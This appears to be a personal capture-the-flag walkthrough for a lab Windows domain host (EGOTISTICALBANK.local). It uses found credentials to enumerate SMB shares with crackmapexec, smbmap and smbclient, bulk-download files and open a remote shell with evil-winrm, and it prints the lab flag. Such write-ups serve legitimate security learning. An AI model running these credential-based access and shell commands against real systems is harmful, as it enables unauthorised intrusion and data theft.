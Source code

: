 
We have some things we can do with a user and password and we don't know what privileges does it have.

- [ ] smb
- [ ] secretsdump
- [ ] crackmapexec
- [ ] ldapdump


```
crackmapexec smb 10.10.10.175 -u fsmith -p 'Thestrokes23' --shares
```
![[Pasted image 20240501055403.png]]

To get more better understanding
```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```
![[Pasted image 20240501062507.png]]



```
smbclient //10.10.10.175/print$ -U 'fsmith' --password 'Thestrokes23'
```
![[Pasted image 20240501055725.png]]

It seems interesting so let's enumerate
![[Pasted image 20240501055840.png]]


![[Pasted image 20240501060920.png]]


```
prompt off
recurse on
ls
mget *
```

We don't have write access but  but  but

Always try to run this command before doing anything
```
evil-winrm -u fsmith -p 'Thestrokes23' -i 10.10.10.175
```
![[Pasted image 20240502020038.png]]

![[Pasted image 20240502020250.png]]

Will get the flag first
```
b832998718ccc6b402516022d19a41be
```
![[Pasted image 20240502020516.png]]
